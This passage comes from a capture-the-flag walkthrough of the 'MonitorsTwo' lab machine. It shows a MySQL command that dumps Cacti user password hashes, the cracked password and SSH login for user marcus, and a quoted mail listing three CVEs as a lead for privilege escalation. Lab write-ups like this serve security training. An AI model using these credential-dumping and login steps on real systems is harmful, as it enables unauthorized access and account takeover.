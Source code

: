 This file leaks the credentials for the MySQL database on the machine and lets us execute SQL queries. I have used the following command to get credentials from the `user_auth` table:
```vim
www-data@50bca5e748b0:/var/www/html$ mysql --host=db --user=root --password=root cacti -e "select username,password from user_auth"
username      password
admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC                                                                     guest   43e9a4ab75570f5b                                                                                                                 marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

Marcus's password can be cracked and is `funkymonkey`. You can try to SSH into the machine with `ssh marcus@<IP_ADDR>`

User Flag is in `/home/marcus/user.txt`


## Privilege Escalation:

Looking really closely at `linpeas.sh` output, you come across some mail file on the machine:

```vim
marcus@monitorstwo:~$ cat /var/mail/marcus 
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team
```
